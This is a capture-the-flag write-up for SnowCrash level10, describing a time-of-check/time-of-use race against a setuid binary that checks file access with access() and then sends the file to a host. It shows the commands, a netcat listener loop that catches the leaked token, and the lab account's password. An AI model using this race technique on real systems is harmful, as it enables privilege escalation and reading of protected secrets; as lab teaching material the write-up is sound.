 ## 1. Connect to level10:

```bash
level09@SnowCrash:~$ su level10
password: *use previously found flag*
```

## 2. See existing files:

```bash
level10@SnowCrash:~$ ls -l
    total 16
    -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

## 3. Test out the `level10` program:

```bash
level10@SnowCrash:~$ ./level10
	./level10 file host
		sends file to host if you have access to it

level10@SnowCrash:~$ ./level10 token localhost
	You don't have access to token

level10@SnowCrash:~$ ./level10 .profile localhost
	Connecting to localhost:6969 .. Unable to connect to host localhost
```

## 4. Create a script that will open the token file

```bash
level10@SnowCrash:~$ cd /tmp
level10@SnowCrash:~$ touch race.sh
```

*See level10/Ressources/race.sh*

The script creates 2 files for which we have the rights to read: a `random file` and a `link file`.

First, the script runs the `level10` binary in an infinite loop, redirecting its output to `/dev/null`.

Then, it alterns the link to the `random file` and the `token` file in an infinite loop.

*If we download the `level10` binary file and look at its main, we can find the access() function used to open the files. This function is known to take a certain time to 1/ check the rights on the file, 2/ open the file if rights allow it (see `man access`).
Our script is going to take advantage of the small window between those 2 steps to try to open the `token` file and use the `random file`s reading rights.*


## 5. Run the script:

```bash
level10@SnowCrash:~$ chmod +x /tmp/race.sh
level10@SnowCrash:~$ /tmp/race.sh
```

## 6. On another terminal, run the race condition:
```bash
while true;  do nc -l 6969 | grep -v '.*( )*.' ; done
```

This will make the content of the files appear on the terminal as long as the loops are running. It will also remove all appearance of '.*( )*.' that pollute the terminal.
You should obtain your password !

## 7. Login into *`flag10`* user account with obtained password:
```bash
level10@SnowCrash:~$ su flag10
password: woupa2yuojeeaaed06riuj63c
```

## 8. Use `getflag` command to get flag for level11:

```bash
flag10@SnowCrash:~$ getflag
```